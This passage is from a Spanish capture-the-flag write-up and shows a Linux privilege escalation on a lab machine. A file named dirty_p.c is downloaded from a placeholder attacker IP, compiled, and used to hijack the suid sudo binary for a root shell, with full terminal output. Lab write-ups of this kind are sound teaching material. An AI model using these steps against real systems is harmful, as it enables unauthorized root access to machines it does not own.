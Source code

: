 * Descargalo en la máquina víctima:
```bash
lp@antique:/tmp$ wget http://Tu_IP/dirty_p.c
wget http://Tu_IP/dirty_p.c
Connecting to Tu_IP:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 7297 (7.1K) [text/x-csrc]
Saving to: ‘dirty_p.c’
-----
dirty_p.c           100%[===================>]   7.13K  --.-KB/s    in 0.002s  
-----
(3.54 MB/s) - ‘dirty_p.c’ saved [7297/7297]
```

* Compilemoslo con el binario **gcc**:
```bash
lp@antique:/tmp$ gcc dirty_p.c -o dirty_p   
gcc dirty_p.c -o dirty_p
lp@antique:/tmp$ ls
ls
dirty_p
dirty_p.c
```

* Utilicemos el Exploit para que secuestre el binario **sudo** y nos convierta en **Root**:
```bash
lp@antique:/tmp$ ./dirty_p /usr/bin/sudo
./dirty_p /usr/bin/sudo
[+] hijacking suid binary..
[+] dropping suid shell..
[+] restoring suid binary..
[+] popping root shell.. (dont forget to clean up /tmp/sh ;))
# whoami
whoami
root
# bash -p
bash -p
root@antique:/tmp# whoami
whoami
root
root@antique:/tmp# cd /root
cd /root
root@antique:/root# ls
ls
config.py  root.txt  snap  snmp-server.py
root@antique:/root# cat root.txt
cat root.txt
```

Y listo, tremendo este Exploit.


<br>
<br>
<div style="position: relative;">
	<h2 id="Links" style="text-align:center;">Links de Investigación</h2>
</div>

